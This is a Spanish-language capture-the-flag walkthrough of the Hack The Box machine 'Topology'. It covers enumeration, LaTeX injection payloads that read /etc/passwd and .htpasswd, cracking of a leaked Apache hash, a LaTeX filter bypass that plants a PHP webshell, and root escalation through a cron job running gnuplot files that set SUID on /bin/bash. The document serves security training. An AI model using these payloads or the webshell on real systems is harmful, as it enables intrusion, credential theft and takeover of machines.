


# Topology

`Topology` es una máquina Linux de dificultad fácil que muestra una aplicación web `LaTeX` susceptible a una vulnerabilidad de inclusión de archivos locales (LFI). La explotación de la falla LFI permite la recuperación de un archivo `.htpasswd` que contiene una contraseña en hash. Al descifrar el hash de la contraseña, se obtiene acceso `SSH` a la máquina, lo que revela un cronjob `root` que ejecuta archivos `gnuplot`. La creación de un archivo `.plt` malicioso permite la escalada de privilegios.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Topology**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.217 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-17 00:18 CET
Initiating SYN Stealth Scan at 00:18
Scanning 10.10.11.217 [65535 ports]
Discovered open port 22/tcp on 10.10.11.217
Discovered open port 80/tcp on 10.10.11.217
Completed SYN Stealth Scan at 00:18, 12.62s elapsed (65535 total ports)
Nmap scan report for 10.10.11.217
Host is up, received user-set (0.050s latency).
Scanned at 2025-02-17 00:18:37 CET for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.73 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65554 (2.623MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.217
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache`.

```bash
❯ nmap -sCV -p22,80 10.10.11.217 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-17 00:19 CET
Nmap scan report for topology.htb (10.10.11.217)
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   88.87 ms 10.10.16.1
2   30.67 ms topology.htb (10.10.11.217)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.05 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep topology
10.10.11.217 topology.htb 
```

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://topology.htb
http://topology.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[lklein@topology.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.217], Title[Miskatonic University | Topology Group]
```

Realizaremos una enumeración de directorios y páginas web de la aplicación web, no logramos obtener ningún resultado interesante.

```bash
❯ feroxbuster -u http://topology.htb/ -t 200 -C 500,502,404
                                                                                                               
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://topology.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      313c http://topology.htb/images => http://topology.htb/images/
301      GET        9l       28w      310c http://topology.htb/css => http://topology.htb/css/
200      GET      174l      545w     6767c http://topology.htb/index.html
200      GET     2433l    13135w   950557c http://topology.htb/portraits/lklein.jpg
301      GET        9l       28w      317c http://topology.htb/javascript => http://topology.htb/javascript/
200      GET      174l      545w     6767c http://topology.htb/
```

Accederemos a [http://topology.htb](http://topology.htb) y nos encontraremos con la siguiente página web.

<figure><figcaption></figcaption></figure>

Al inspeccionar el sitio web, nos encontramos que haciendo `hovering`, se nos muestra un subdominio llamado `latex.topology.htb`.

<figure><figcaption></figcaption></figure>

Añadiremos esta nueva entrada en nuestro archivo `/etc/passwd`.

```bash
❯ cat /etc/hosts | grep topology
10.10.11.217 topology.htb latex.topology.htb
```

Al ingresar directamente a [http://latex.topology.htb](http://latex.topology.htb) y nos encontramos con la siguiente página web en la que podemos realizar `Directory Listing`.

<figure><figcaption></figcaption></figure>

Accederemos a[ http://latex.topology.htb/equation.php](http://latex.topology.htb/equation.php) y nos encontramos con la siguiente aplicación web en la cual nos permite introducir código **LaTeX**. Con lo cual, podríamos posteriormente comprobar si es vulnerable a `LaTeX Injection`.

<figure><figcaption></figcaption></figure>

### Subdomain Enumeration

Realizamos una enumeración de subdominios del dominio principal de la página web. Al finalizar el análisis, nos encontramos con dos nuevos subdominios: `stats.topology.htb`y `dev.topology.htb`.

```bash
❯ wfuzz --hh=6767 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.topology.htb" http://topology.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                       
=====================================================================

000000158:   200        5 L      9 W        108 Ch      "stats"                                       
000000821:   401        14 L     54 W       463 Ch      "dev"                                         

Total time: 90.09859
Processed Requests: 2278
Filtered Requests: 2276
Requests/sec.: 25.28341
```

Añadiremos estas nuevas entradas en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep topology
10.10.11.217 topology.htb latex.topology.htb stats.topology.htb dev.topology.htb
```

Al acceder a [http://stats.topology.htb](topology.md#stats.topology.htb) nos encontramos con el siguiente contenido, el cual no parece tener contenido importante en él.

<figure><figcaption></figcaption></figure>

Al acceder a la página web de http://dev.topology.htb, nos encontramos con la siguiente página web en la cual requiere ingresar credenciales que no disponemos.

Dado que nos encontramos ante una página web montada en un servidor de `Apache`, y por el tipo de autenticación que nos requiere ingresar, podemos pensar en que quizás esté utilizando `Basic Auth` y existan archivos de `.htaccess` o `.htpasswd` el cual contengan credenciales de usuarios.


Los . htaccess se utilizan para indicar al servidor web que se comporte de una determinada manera, añadiendo, limitando o modificando funcionalidades por defecto. Entre las utilidades de uso más frecuente se encuentran las configuraciones de acceso a la web, las restricciones de seguridad, las redirecciones, etc.\
\
htpasswd es un archivo de texto que se usa para guardar los nombres de usuario y las contraseñas para la autenticación básica del Servidor HTTP Apache. El nombre del fichero se da en el fichero de configuración .


<figure><figcaption></figcaption></figure>

## Initial Access

### LaTeX Injection

Volveremos a la página de http://latex.topology.htb y probaremos de revisar si es vulnerable a `LaTeX Injection` el campo donde nos permite inyectar código `LaTeX`.

<figure><figcaption></figcaption></figure>

Interceptaremos la solicitud con `BurpSuite`, y comprobamos que la solicitud se tramita a través del método `GET`. Por otro lado, se verifica que la variable `eqn` es dónde podemos introducir código `LaTeX`.

En este ejemplo básico, introduciremos `Gzzcoo` y al enviar la solicitud, en la respuesta por parte del servidor se nos genera un PDF con el código `LaTeX`.

<figure><figcaption></figcaption></figure>

### Reading Files with LaTeX Injection

Lo primero que intentaremos es intentar leer archivos arbitrarios del sistema mediante `LaTeX Injection`. A través de la siguiente inyección, trataremos de listar la primera línea del archivo `/etc/passwd`.

Verificamos que al inyectar el código, comprobamos que en el PDF generado se muestra la primera línea del archivo listado.


```latex
\newread\file
    \openin\file=/etc/passwd
    \read\file to\line
    \text{\line}
\closein\file
```


<figure><figcaption></figcaption></figure>

Al intentar listar todo el contenido de `/etc/passwd`a través de la siguiente inyección `LaTeX`, se nos mostraba que había detectado un comando ilegal, con lo cual mediante el bucle, no podíamos listar el contenido entero del archivo.

```latex
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

<figure><figcaption></figcaption></figure>

Probamos de intentar ejecutar  el comando `id` mediante la siguiente inyección `LaTeX` para intentar obtener un **RCE**. pero tampoco obtuvimos el resultado esperado.

```latex
\immediate\write18{id > output}
\input{output}
```

<figure><figcaption></figcaption></figure>

En la siguiente página web,s e nos menciona un paquete de `code listing` en donde podemos importar código desde un archivo.

En este caso, tratamos de incluir una imagen del contenido del archivo `/etc/passwd`, pero nos dio mensajes de error.



```latex
\lstinputlisting{/etc/passwd}
```

<figure><figcaption></figcaption></figure>

Para explotar la vulnerabilidad de **LaTeX Injection**, necesitamos inyectar código malicioso en un contexto donde LaTeX lo interprete y ejecute.

En este caso, el sitio parece encerrar automáticamente la entrada entre símbolos `$ ... $`, lo que significa que cualquier comando que intentemos inyectar quedará dentro del modo matemático de LaTeX. Para romper esa estructura y ejecutar nuestros propios comandos, podemos intentar cerrar la expresión con `$` y luego insertar nuestra carga útil, finalizando con otro `$` para restaurar el formato esperado.



Por ejemplo, la siguiente inyección nos permitiría leer el contenido de **/etc/passwd**:

Si la inyección es exitosa, el contenido del archivo debería aparecer renderizado dentro del documento generado por LaTeX, tal y como se muestra en este caso.

Por lo tanto, tenemos una manera de listar el contenido de archivos arbitrarios del sistema.

```latex
$\lstinputlisting{/etc/passwd}$
```

<figure><figcaption></figcaption></figure>

### Information Leakage

Después de diferentes pruebas para intentar obtener información que nos pudiese servir y no obtener resultado ninguno, pensamos en que quizás exista el archivo `.htpasswd` y `.htaccess` de la página web `dev.topology.htb` que encontramos anteriormente que nos requería ingresar credenciales.

Por lo tanto, decidimos primero revisar la configuración de las páginas web de `Apache` que se encuentran habilitadas en el sistema objetivo, para tratar de revisar las rutas de configuración exacta de donde se encuentran los correspondientes archivos.

```latex
$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$
```

<figure><figcaption></figcaption></figure>

En el resultado obtenido, se nos mostró la configuración de las diferentes páginas web que llegamos a enumerar anteriormente.

Revisamos que la configuración de `dev.topology.htb` se encuentra en `/var/www/dev`.



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



Por lo tanto, sabiendo esta información podemos intentar listar el contenido del `.htaccess` de la página web indicada. Verificamos que en el PDF generado, se nos muestra el contenido del archivo que queríamos listar.

Tal y como mencionábamos anteriormente, se estaba utilizando un `Basic Auth`para acceder a `dev.topology.htb`. También se nos confirma la ruta en donde se encuentra almacenada el archivo `.htpasswd` el cual debería contener credenciales de acceso a la página web.

```latex
$\lstinputlisting{/var/www/dev/.htaccess}$
```

<figure><figcaption></figcaption></figure>

Decidimos listar el contenido del `.htpasswd` en el resultado obtenido, se nos muestra las credenciales del usuario `vdaisley` en formato hash, probablemente `Apache MD5`.

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

<figure><figcaption></figcaption></figure>

Verificamos que el tipo de hash encontrado es `Apache MD5`. A través de `hashcat`, finalmente logramos crackear el hash y obtener las credenciales en texto plano.

```bash
❯ hashid '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0'
Analyzing '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0'
[+] MD5(APR) 
[+] Apache MD5 

❯ hashcat -h | grep Apache
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)                      | FTP, HTTP, SMTP, LDAP Server
   
❯ hashcat -a 0 -m 1600 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU


$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
```

Probamos de autenticarnos con las credenciales encontradas en [http://dev.topology.htb](http://dev.topology.htb), logramos acceder a la página web, pero no obtenemos información interesante que nos pueda servir.

<figure><figcaption></figcaption></figure>

Probamos de autenticarnos al `SSH` con las credenciales del usuario `vdaisley`, finalmente logramos el acceso remoto a la máquina y visualizar la flag de **user.txt**.

```bash
❯ ssh vdaisley@10.10.11.217
vdaisley@10.10.11.217's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Feb 16 18:59:18 2025 from 10.10.16.3ç
vdaisley@topology:~$ export TERM=xterm
vdaisley@topology:~$ cat user.txt 
4313af6cb7**********************
```

### Bypass Restrictions LaTeX Injection to perform Remote Code Execution

[ippSec](https://ippsec.rocks/?), nos muestra también una manera de poder llegar a acceder al equipo mediante `LaTeX Injection` logrando realizar un `Bypass` de las restricciones que se nos indicaba anteriormente.

En el siguiente ejemplo, creamos un archivo llamado `gzzcoo.php` que contenía una **webshell**.

```latex
\newwrite\outfile\openout\outfile=gzzcoo.php\^^77rite\outfile{<?php system($_REQUEST['cmd']); ?>}\closeout\outfile
```

<figure><figcaption></figcaption></figure>

Este archivo al parecer, es subido en [http://latex.topology.htb/tempfiles/](http://latex.topology.htb/tempfiles/), en el cual comprobamos el archivo creado.

<figure><figcaption></figcaption></figure>

Probamos de utilizar la **webshell** subida, y se nos muestra la posibilidad de ejecutar comandos arbitrarios en el sistema objetivo.

En este caso, el usuario que ejecuta los comandos era `www-data`, con lo cual si utilizamos este método, deberíamos posteriormente ganar acceso como el usuario `vdaisley`.

```bash
❯ curl -s 'http://latex.topology.htb/tempfiles/gzzcoo.php?cmd=id;hostname;ifconfig'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
topology
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.217  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:fe94:9002  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe94:9002  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:90:02  txqueuelen 1000  (Ethernet)
        RX packets 105628  bytes 8125611 (8.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 95326  bytes 29401300 (29.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4855  bytes 407965 (407.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4855  bytes 407965 (407.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Privilege Escalation

### Basic Enumeration

Realizaremos una enumeración básica con el usuario `vdaisley`para lograr verificar si disponemos de algún grupo interesante, permisos de `sudoers` o de algún binario con `SUID`. En este caso, no logramos obtener resultados interesantes para elevar nuestros privilegios.

```bash
vdaisley@topology:~$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
vdaisley@topology:~$ sudo -l
[sudo] password for vdaisley: 
Sorry, user vdaisley may not run sudo on topology.
vdaisley@topology:~$ find / -perm -4000 2>/dev/null
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
```

### Monitoring Processes (Pspy64)

Enumerando los directorios del sistema, nos encontramos con el directorio `/opt` el cual disponía de un directorio nombrado como `gnuplot`. Este directorio no disponemos del acceso correspondiente y verificamos que el propietario es el usuario `root`.


gnuplot es un programa de línea de comandos y GUI que puede generar gráficos bidimensionales y tridimensionales de funciones, datos y ajustes de datos .


```bash
vdaisley@topology:~$ ls -l /opt/
total 4
drwx-wx-wx 2 root root 4096 Jun 14  2023 gnuplot

vdaisley@topology:~$ ls -l /opt/gnuplot/
ls: cannot open directory '/opt/gnuplot/': Permission denied
```

Por lo tanto, probamos de enumerar los procesos que se encontraban en ejecución mediante `pspy64`. Este binario que disponemos en nuestro equipo local, lo compartiremos mediante un servidor web.

```bash
❯ ls -l pspy64
.rwxr-xr-x kali kali 3.0 MB Tue Jan 17 22:09:52 2023  pspy64

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el binario y le daremos los permisos de ejecución correspondientes.

```bash
vdaisley@topology:/tmp$ wget 10.10.16.3/pspy64; chmod +x pspy64
--2025-02-16 19:04:18--  http://10.10.16.3/pspy64
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                      100%[==========================================>]   2.96M  1.58MB/s    in 1.9s    

2025-02-16 19:04:20 (1.58 MB/s) - ‘pspy64’ saved [3104768/3104768]
```

Ejecutaremos el binario de `pspy64` para analizar los procesos que se encontraban en ejecución en el sistema. Después de un breve tiempo, comprobamos que se están ejecutando mediante una tarea `CRON`, la ejecución de archivos con extensión `.plt` en el directorio `/opt/gnuplot` y posteriormente se ejecutan con `gnuplot`.

```bash
vdaisley@topology:/tmp$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/02/16 19:04:46 CMD: UID=1007  PID=3034   | ./pspy64 
2025/02/16 19:04:46 CMD: UID=0     PID=2986   | 
2025/02/16 19:04:46 CMD: UID=0     PID=2985   | 
2025/02/16 19:04:46 CMD: UID=0     PID=1      | /sbin/init 
2025/02/16 19:05:01 CMD: UID=0     PID=3046   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2025/02/16 19:05:01 CMD: UID=0     PID=3045   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2025/02/16 19:05:01 CMD: UID=0     PID=3044   | /usr/sbin/CRON -f 
2025/02/16 19:05:01 CMD: UID=0     PID=3043   | /usr/sbin/CRON -f 
2025/02/16 19:05:01 CMD: UID=0     PID=3048   | /usr/sbin/CRON -f 
2025/02/16 19:05:01 CMD: UID=0     PID=3047   | gnuplot /opt/gnuplot/loadplot.plt 
2025/02/16 19:05:01 CMD: UID=0     PID=3053   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3052   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3051   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3050   | netstat -i 
2025/02/16 19:05:01 CMD: UID=0     PID=3049   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3057   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3056   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3055   | grep -o load average:.*$ 
2025/02/16 19:05:01 CMD: UID=0     PID=3054   | 
2025/02/16 19:05:01 CMD: UID=0     PID=3059   | tail -60 /opt/gnuplot/loaddata.dat 
2025/02/16 19:05:01 CMD: UID=0     PID=3060   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
```

Lo primero que deberemos realizar, es comprobar que tenemos permisos de escritura en el directorio mencionado. Por lo tanto, crearemos un nuevo archivo `.txt` y le daremos los permisos de ejecución, esto para simular que podemos crear archivos.

Comprobamos que hemos logrado crear un archivo en el directorio `/opt/gnuplot` y también la capacidad de darle permisos de ejecución al archivo creado.

```bash
vdaisley@topology:/opt$ echo 'gzzco was where' > /opt/gnuplot/gzzcoo.txt
vdaisley@topology:/opt$ ls -l /opt/gnuplot/gzzcoo.txt
-rw-rw-r-- 1 vdaisley vdaisley 16 Feb 16 19:07 /opt/gnuplot/gzzcoo.txt
vdaisley@topology:/opt$ chmod +x /opt/gnuplot/gzzcoo.txt
vdaisley@topology:/opt$ ls -l /opt/gnuplot/gzzcoo.txt
-rwxrwxr-x 1 vdaisley vdaisley 16 Feb 16 19:07 /opt/gnuplot/gzzcoo.txt
```

Pensando que la tarea `CRON` que realiza la ejecución de los archivos `.plt` en dicho directorio sea `root`, tenemos una vía potencial para poder escalar privilegios.

En esta primera comprobación crearemos un archivo `gzzcoo.plt` que ejecute el comando `whoami` y redirija el output al archivo `/tmp/whoami`. Le daremos los permisos correspondientes y comprobaremos de la existencia del archivo y de que se hayan asignado los permisos correspondientes.

```bash
vdaisley@topology:/opt$ echo 'system "whoami > /tmp/whoami";' > /opt/gnuplot/gzzcoo.plt
vdaisley@topology:/opt$ chmod +x /opt/gnuplot/gzzcoo.plt
vdaisley@topology:/opt$ ls -l /opt/gnuplot/gzzcoo.plt
-rwxrwxr-x 1 vdaisley vdaisley 31 Feb 16 19:09 /opt/gnuplot/gzzcoo.plt
```

Después de un breve tiempo, comprobamos en el directorio `/tmp` que aparece el archivo creado `whoami`. Revisando el archivo, comprobamos que el comando `whoami` ha dado como resultado el usuario `root`.

Con esto, se confirma que tenemos una vía potencial de abusar de un script creado con extensión `.plt`en el directorio mencionado para que posteriormente sea ejecutado a través de la tarea `CRON` del usuario `root`.

```bash
vdaisley@topology:/opt$ ls -l /tmp
total 3064
-rwxrwxr-x 1 vdaisley vdaisley 3104768 Jan 17  2023 pspy64
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-apache2.service-tr5Juh
drwx------ 3 root     root        4096 Feb 16 18:55 systemd-private-de1cea4b82844141bf370951bba87c3d-fwupd.service-KgLzdh
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-ModemManager.service-twUI0h
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-systemd-logind.service-tw6iuf
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-systemd-resolved.service-YGF6Uf
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-systemd-timesyncd.service-zkIJAi
drwx------ 2 root     root        4096 Feb 16 18:06 vmware-root_657-4022112241
-rw-r--r-- 1 root     root           5 Feb 16 19:10 whoami
vdaisley@topology:/opt$ cat /tmp/whoami 
root
```

En este caso, reemplazaremos el contenido de `gzzcoo.plt` para que en este caso asigne permisos de `SUID`sobre el binario `/bin/bash`. Verificamos que se el script sigue estando en el directorio mencionado y dispone de los permisos de ejecución.

Después de un breve tiempo, revisamos el binario `/bin/bash` y comprobamos que se le han asignado los permisos de `SUID`, con lo cual finalmente logramos convertirnos en usuario `root` y visualizamos la flag **root.txt** &#x20;

```bash
vdaisley@topology:/opt$ echo 'system "chmod u+s /bin/bash";' > /opt/gnuplot/gzzcoo.plt
vdaisley@topology:/opt$ ls -l /opt/gnuplot/gzzcoo.plt
-rwxrwxr-x 1 vdaisley vdaisley 30 Feb 16 19:10 /opt/gnuplot/gzzcoo.plt
vdaisley@topology:/opt$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:/opt$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
df00d35bed**************************
```
